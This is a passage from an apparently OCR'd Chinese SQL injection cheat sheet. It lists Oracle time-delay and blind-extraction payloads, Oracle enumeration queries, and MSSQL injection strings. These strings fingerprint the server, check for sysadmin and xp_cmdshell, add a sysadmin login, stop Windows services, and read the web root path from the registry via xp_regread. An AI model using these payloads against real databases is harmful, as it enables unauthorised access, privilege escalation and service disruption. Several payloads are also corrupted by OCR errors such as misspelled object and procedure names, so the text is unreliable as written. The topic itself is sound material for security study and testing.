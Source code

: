 * `or 1= dbms pipe.receive_message('RDS', 10)--`
* `and 1=dbms_pipe.receive_message('RDS', 10)--`

#### Decode 函数

 `AND 1=(SELECT decode(substr((SELECT table_name FROM user_tables WHERE rownum=1),1,1),’S',(SELECT count(*) FROM all_objects), 1) FROM dual)--`

由于使用了 `SELECT count(*) FROM all_obijects` 方法，因此该过程会严重影响到数据库性能，应谨慎操作

### 手工注入

#### 常用语句

* 当前用户：`SELECT user FROM dual;`
* 列出所有用户：`SELECT username FROM all_users ORDER BY username;`
* 列出数据库：`SELECT DISTINCT owner FROM all tables;`
* 列出表名：
    - `SELECT table_name FROM all_tables;`
    - `SELECT owner, table_name FROM all_tables;`
* 列出字段名：
    - `SELECT column_name FROM all_tab_columns WHERE table_name = 'tablename';`
    - `SELECT column_name FROM all_tab_columns WHERE table_name = 'tablename' and owner='ownername';`
* 定位DB文件：`SELECT name FROM V$DATAFlLE;`

## 04 MSSQL 注入进阶技巧

### 手工注入总结

* `and exists (select * from sysobjects)`  //判断是否是MSSQL
* `and exists(select * from tableName)` //判断某表是否存在..tableName为表名
* `and 1=(select @@VERSION)`  //MSSQL版本
* `and 1=(select db_name())`  //当前数据库名
* `and 1=(select @@servername)`  //本地服务名
* `and 1=(select IS_SRVROLEMEMBER('sysadmin'))`  //判断是否是系统管理员
* `and 1=(select IS_MEMBER('db_owner'))`  //判断是否是库汉限
* `and 1= (select HAS_DBACCESS('master'))`  //判断是否有库读取权限
* `and 1=(select name from master.dbo.Sysdatabases where dbid=1)`  //暴库名DBlD为1，2，3.……
* `;declare @d int`  //是否支持多行
* `and 1=(select count(*) FROM master.dbo.sysobjects Where xtype ='X' AND name='xp_cmdshell')`  // 判断 xp_cmdshell 是否存在
* `and 1=(select count(*) FROM master.dbo.sysobjects where name= 'xp_regread')`  //查看XP regread扩展存储过程是不是已经被删除
* 添加和删除一个SA权限的用户test：（需要SA权限）
    - `exec master.dbo.sp_addlogin test,password`
    - `exec master.dbo.sp addsrvrolemember test,sysadmin`
* 停掉或激活某个服务。（需要SA权限）
    - `exec master..xp_servicecontrol 'stop','schedule'`
    - `exec master..xp_servicecontrol 'start','scheule'`
* 暴网站目录
    - `create table labeng(lala nvarchar(255), id int)`
    - `DECLARE@result varchar(255) EXEC master.dbo.xp_regread`
    - `'HKEY_LOCAL_MACHINE', 'SYSTEM\ControlSet001\Services\W3SVC\Parameters\VirtualRoots' , '/', @result output insert into labeng(lala)values(@result);`
    - `and 1=(select top 1 lala from labeng)` 或者 `and 1=(select count(*) from labeng where lala>1)`
